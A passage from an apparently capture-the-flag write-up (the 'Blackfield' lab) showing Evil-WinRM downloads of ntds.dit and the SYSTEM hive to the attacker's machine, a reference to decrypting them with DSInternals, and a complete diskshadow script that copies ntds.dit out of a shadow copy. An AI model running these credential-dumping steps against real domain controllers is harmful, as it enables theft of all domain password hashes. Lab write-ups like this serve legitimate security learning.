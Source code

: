 Downloading the system and ntds.dit files locally to run the last steps:

```
*Evil-WinRM* PS C:\windows\temp\mine> download ntds.dit
Info: Downloading C:\windows\temp\mine\ntds.dit to ntds.dit
                                                 
Info: Download successful!

*Evil-WinRM* PS C:\windows\temp\mine> download system
Info: Downloading C:\windows\temp\mine\system to system
  
Info: Download successful!

```

Download and import DSInternals powershell module, get key from system file and decrypt password in the ntds.dit file. However, an error is throw "Checksum error on a database page"

![wbadmin_checksum](/images/blackfield/wbadmin_checksum.png)


The article mentions a second tool diskshadow.exe, in fact there are many tools that can be used to grab the shadow copy of o system, however, it's worth sticking to the recommendations in article first.

<u>**Shadow backup using Diskshadow.exe**</u>

Following the instructions the first couple of google results on "diskshadow.exe dump ntds password":

* https://pentestlab.blog/tag/diskshadow/
* https://ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration

Then creating the diskshadow.txt file and runing the diskshadow.exe command, it is noticeable that the last character in each line is snipped, adding a couple of spaces or a comment to the end of the line would ensure that all characters are sent.

diskshadow.txt:

```
set context persistent nowriters #
set metadata C:\users\svc_backup\metadata.cab #
add volume c: alias someAlias #
create #
expose %someAlias% k: #
exec cmd.exe /c copy k:\windows\ntds\ntds.dit C:\users\svc_backup\ntds.dit #
delete shadows volume %someAlias% #
reset #
```
